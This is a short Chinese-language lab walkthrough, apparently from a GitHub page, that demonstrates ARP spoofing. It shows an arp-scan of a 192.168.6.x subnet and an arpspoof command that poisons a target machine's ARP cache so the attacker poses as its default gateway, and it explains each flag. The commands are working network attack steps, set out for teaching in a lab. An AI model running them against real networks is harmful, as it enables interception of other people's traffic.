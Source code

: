 + 攻击者扫描，查询是否与靶机处在同一网段。

```shell
(kali)$ arp-scan 192.168.6.1-192.168.6.254
```

<img src=".\arp-scan.png" style="zoom:67%;" />

+ 攻击者伪装成靶机网关，攻击开始。

```shell
(kali)$ sudo arpspoof -i eth0 -t 192.168.6.131 192.168.6.2
```

 `arpspoof`：ARP欺骗工具。会发送虚假的ARP应答来毒化目标主机的ARP缓存。

`-i eth0`：指定了要使用的网络接口。

`-t 192.168.6.131`：指定靶机的IP地址。

`192.168.6.2`: 第二个参数，表示攻击者想要将自己伪装成的IP地址。在本实验中，攻击者伪装成靶机的默认网关。

<img src=".\arp-attack.png" style="zoom:67%;" />
